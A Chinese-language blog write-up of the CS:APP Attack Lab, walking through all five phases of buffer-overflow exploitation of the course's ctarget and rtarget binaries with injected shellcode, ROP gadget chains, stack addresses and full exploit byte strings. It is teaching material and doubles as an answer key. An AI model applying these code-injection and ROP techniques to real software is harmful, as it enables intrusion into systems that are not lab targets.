

## 前言

我一直以为，把炸弹给拆完，chapter3就完结撒花了，结果没想到还有一个attack lab

这个实验是给我们体验缓冲区溢出攻击的，算是有点意思

攻击的两个方法分别是：**Code Injection** 和 **Return-Orient Programming**，即代码注入和面向返回编程

记得，在我们开始之前，必须，必须，必须得阅读本实验的Writeup！实验怎么做以及实验的相关信息都在里头！~~（我刚开始没注意到）~~

Writeup请去官网自取：[点击这里](http://csapp.cs.cmu.edu/3e/labs.html)

## 开始之前

此份实验包含了如下五个文件，都是有用的

```text
README.txt: A file describing the contents of the directory

ctarget: An executable program vulnerable to code-injection attacks

rtarget: An executable program vulnerable to return-oriented-programming attacks

cookie.txt: An 8-digit hex code that you will use as a unique identifier in your attacks.

farm.c: The source code of your target’s “gadget farm,” which you will use in generating return-oriented programming attacks.

hex2raw: A utility to generate attack strings.
```

从Writeup里头总结一下吧，大概有下面几点

首先程序`ctarget`和`rtarget`都会从标准流中读取字符串，读取字符串的函数`getbuf()`如下，函数`Gets()`来读取字符串，等价于`gets()`

```c
unsigned getbuf()
{
  char buf[BUFFER_SIZE];
  Gets(buf);
  return 1;
}
```

而你的目的就是：利用Buffer Overflow，将将参数带上（可选）并跳转到对应的函数`touch1`，`touch2`或`touch3`上

大体流程就是

1. 构造字节码
2. 使用`hex2raw`来将字节码生成为对应的字符串
3. 将生成的字符串流入`ctarget -q`或`rtarget -q`

```shell
./hex2raw < phase_1.txt | ./ctarget -q
```

由自己写的汇编构造字节码的时候，可以这么操作，先编译为目标文件后进行反汇编，如下

```shell
gcc -c phase_2.s
objdump -d phase_2.o
```

## Code Injection

主要思路是通过缓冲区溢出，先在栈里注入自己的代码（字节码），然后溢出后修改`ret`的地址为自己注入的代码所在的地址。这样，你注入的代码就会被执行了。

```c
void test()
{
  int val;
  val = getbuf();
  printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

在调用`getbuf()`的时候，我们就要输入我们构造的字符串，进行缓冲区溢出攻击了

### Phase 1

我们要跳转到`touch1`函数去，该函数不用带参数，所以我们不用准备参数

```c
void touch1()
{
  vlevel = 1; /* Part of validation protocol */
  printf("Touch1!: You called touch1()\n");
  validate(1);
  exit(0);
}
```

在汇编代码里头，可以找到`<touch1>`的地址为`4017c0`，我们只需要通过溢出，将`ret`的地址改写成这个就行了。所以我们得再看看，程序为这个函数分配了多少的栈空间

`getbuf()`的汇编代码如下，可以看到分配了`0x28`即40字节。

```text
00000000004017a8 <getbuf>:
  4017a8: 48 83 ec 28           sub    $0x28,%rsp
  4017ac: 48 89 e7              mov    %rsp,%rdi
  4017af: e8 8c 02 00 00        callq  401a40 <Gets>
  4017b4: b8 01 00 00 00        mov    $0x1,%eax
  4017b9: 48 83 c4 28           add    $0x28,%rsp
  4017bd: c3                    retq   
  4017be: 90                    nop
  4017bf: 90                    nop
```

要覆写`ret`的地址，我们只需要构造字节码即可

```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00 /* modify ret address saved on stack */
```

PASS

```text
➜  attacklab git:(main) ✗ ./hex2raw < phase_1.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
```

### Phase 2

首先实验要求我们跳到`touch2()`

```c
void touch2(unsigned val)
{
  vlevel = 2; /* Part of validation protocol */
  if (val == cookie) {
    printf("Touch2!: You called touch2(0x%.8x)\n", val);
    validate(2);
  } else {
    printf("Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
  }
  exit(0);
}
```

如果参数为cookie的话，就会PASS，否则不会。

也不是非常难的样子，只要把cookie即`0x59b997fa`给送入`%rdi`里头，然后跳转到`touch2`即可。

我们先构造一下汇编代码

```text
mov $0x59b997fa, %rdi
pushq $0x4017ec
retq
```

将汇编给编译后反汇编，得出对应的字节码

```text
0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq
```

这一部分的attack，没有开启栈地址随机化，因此我们可以通过GDB打断点，得出`%rsp`的地址为`0x5561dc78`

所以最后构造出来的字节码如下，注意，汇编指令的字节码，不需要按大小端序进行排布。

```text
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 /* to injected code */
```

### Phase 3

这个attack是要我们跳转到`touch3()`中

```c
 /* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
  char cbuf[110];
  /* Make position of check string unpredictable */
  char *s = cbuf + random() % 100;
  sprintf(s, "%.8x", val);
  return strncmp(sval, s, 9) == 0;
}
void touch3(char *sval)
{
  vlevel = 3; /* Part of validation protocol */
  if (hexmatch(cookie, sval)) {
    printf("Touch3!: You called touch3(\"%s\")\n", sval);
    validate(3);
  } else {
    printf("Misfire: You called touch3(\"%s\")\n", sval);
    fail(3);
  }
  exit(0);
}
```

Writeup里头写了这些

> When functions hexmatch and strncmp are called, they push data onto the stack, **overwriting portions of memory that held the buffer used by getbuf**. As a result, you will need to be careful where you place the string representation of your cookie.

可以看到，touch3相关的函数会把`getbuf()`栈里头的内容给覆写掉，所以我们要好好想想如何保护我们注入的代码和字符串。

从`hexmatch()`的汇编也可以看出，实际是对着`%rsp`减了126，应该是用来给`cbuf[110]`用的，从代码上可以看出，这波是在随机的起始地址上存了cookie的字符串，那么也就是说，`hexmatch`函数随机存入的cookie string，有可能会把我们构造的字符串给覆盖掉

```text
401850: 48 83 c4 80           add    $0xffffffffffffff80,%rsp
```

思考一下，直接把`%rsp`给拉下来`0x28+0x8`即`0x30`就行了（也可以把这个字符串放在更高的地址上），减掉`0x30`是为了不使得注入的代码被破坏，因为我构造的代码有`pushq`。（~~别问我怎么知道的，问就是我只想减去`0x8+0x10`结果就segmentation fault了~~

紧接着，cookie的字符串的字节码如下

```text
35 39 62 39 39 37 66 61 00
```

我们写出下面的汇编

```text
sub $0x30, %rsp # protect
movq $0x5561dc78, %rdi # addr of cookie string
movq $0x4018fa, %rax # addr of touch3()
pushq %rax
retq
```

所以最后的字节码如下

```text
/* cookie string */
35 39 62 39 39 37 66 61
00 00 00 00 00 00 00 00
/* injected code */
48 83 ec 30 48 c7 c7 78
dc 61 55 48 c7 c0 fa 18
40 00 50 c3 00 00 00 00
/* return to injected code */
88 dc 61 55 00 00 00 00
```

## ROP

面向对象编程，面过过程还有函数式编程，我们都很熟悉了。那么，什么是面向返回编程呢？

当一个程序使用了如下的技术的时候，上面的代码注入操作就没用了

- Randomized stack address
- Set section of memory holding the stack as non-executable

首先我们无法确定栈的地址，即使能确定，但由于栈所在的内存区域，被标记为了不可执行，所以一旦执行位于栈上的代码就会出现`segment fault`

但如果我们可以利用该程序里头现有的代码（字节码）完成攻击

比如有一段代码

```c
void setval_210(unsigned *p)
{
  *p = 3347663060U;
}
```

被编译为

```text
400f15: c7 07 d4 48 89 c7   movl $0xc78948d4,(%rdi)
400f1b: c3                  retq
```

但仔细观察一下，`c3`前的片段`48 89 c7`其实是`movq %rax, %rdi`的字节码，要想执行这段代码，我们只需要通过`ret`命令将PC给设定为对应的代码的地址即可。这样，一段汇编就这样被构造出来了

如果把这些代码拼在一起的话，就成为一段代码序列了。一句执行完之后就会ret，第二句的地址跟上就行了。以此类推，如下图



### Phase 4

一句话：使用ROP，让程序带参地跳到`touch2()`上

首先我们容易想到，先把`cookie`给存到栈上，最后直接`pop`到`%rdi`上

我们只能从`start_farm`到`mid_farm`之间的汇编里头找对应的字节码来构造gadget

但是经过一番查表，并没有`popq %rdi`的字节码啊，而writeup提醒我们需要两个gadget来解决该问题，因此，猜测是`popq`到一个寄存器上，然后由该寄存器拷贝到`%rdi`上

查表后发现有代码`popq %rax`和`movq %rax, %rdi`

```text
00000000004019a7 <addval_219>:
  4019a7: 8d 87 51 73 58 90     lea    -0x6fa78caf(%rdi),%eax
  4019ad: c3                    retq 

00000000004019c3 <setval_426>:
  4019c3: c7 07 48 89 c7 90     movl   $0x90c78948,(%rdi)
  4019c9: c3                    retq 
```

代码的起始地址分别为`4019ab`和`4019c5`

因此很容易构造出对应的字节码，从溢出的部分开始，自底向上，分别为`popq`的gadget地址，cookie的二进制，`movq`的gadget地址，以及`touch2()`的地址

```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

### Phase 5

这个好像writeup没建议必须要做，因为只有5分，却要构造8个gadget，它还说前面四个phase你对解决了就已经95分了，言外之意就是：~~除非你是卷王，否则就不要碰了~~

跟Phase4的原理差不多，但是`farm`的范围扩大到`end_farm`，我们要做的是依旧是构造gadget

这些gadget要完成，如下的工作

1. 计算出cookie字符串所在的地址
2. 跳转到`touch3()`

难点是，如何在栈随机化的情况下得到字符串的起始地址。随机化的起始地址，给我们的信息就是：绝对地址的跳转，已经是不可能的了

那么，相对地址可以吗？可以的！紧随`mid_farm`后面的函数`add_xy()`就已经给我们指点了明路：只需要`%rsp+offset`即可得到字符串的起始地址。

```text
00000000004019d6 <add_xy>:
  4019d6: 48 8d 04 37           lea    (%rdi,%rsi,1),%rax
  4019da: c3 
```

那我们先把farm里头的字节码序列都分析一波呗，看看能得出什么可能会有用的序列

再结合phase4的分析，最后得出如下的语句

```text
48 89 e0    movq %rsp,%rax
48 89 c7    movq %rax,%rdi
58          popq %rax
89 c2       movl %eax,%edx
89 d1       movl %edx,%ecx
89 ce       movl %ecx,%esi
48 8d 04 37 lea  (%rdi,%rsi,1),%rax
```

这些语句有什么用呢，仔细观察，发现里头有常见的`%rsp`和`%rdi`

到这里，我们先撸一下大致的思路，总之要实现这样的一个目的：**把字符串的起始地址给塞进%rdi，然后跳转到`touch3()`**

从`lea`语句中可以得出这个信息：算出字符串的地址需要寄存器`%rdi`和`%rsi`。

又从前两条语句可以看出`%rdi`存的是栈的地址，那`%rsi`就是offset了，再仔细观察一下，发现`%rsi`的值可以通过`popq %rax`之后`movl`几下后得到。

所以先将%rsp存到%rdi，然后将栈上存的offset弄到%rsi里头，通过lea计算出地址

此时字符串的地址就存放于`%rax`上，最后一波`movq %rax, %rdi`将地址送到`%rdi`上，此时参数已经准备完毕。接着跳转到`touch3()`上面就行了，由于gadget后面都有`ret`，所以把地址直接写在栈上即可

最后要构造的字节码应有如下结构（地址从低到高）

```text
48 89 e0    movq %rsp,%rax
48 89 c7    movq %rax,%rdi
58          popq %rax
# offset 0x48
89 c2       movl %eax,%edx
89 d1       movl %edx,%ecx
89 ce       movl %ecx,%esi
48 8d 04 37 lea  (%rdi,%rsi,1),%rax
48 89 c7    movq %rax,%rdi
# cookie string
```

结果如下

```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
69 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
00 00 00 00 00 00 00 00
```

最后提交 PASS 此处完结撒花

## 写在后面

虽然就五个实验，但可以让我们感受到什么是Buffer Overflow，以及对应的攻击方式。

~~也许还可以作为PWN的入门课~~

~~好像真没什么必要弄个写在后面~~
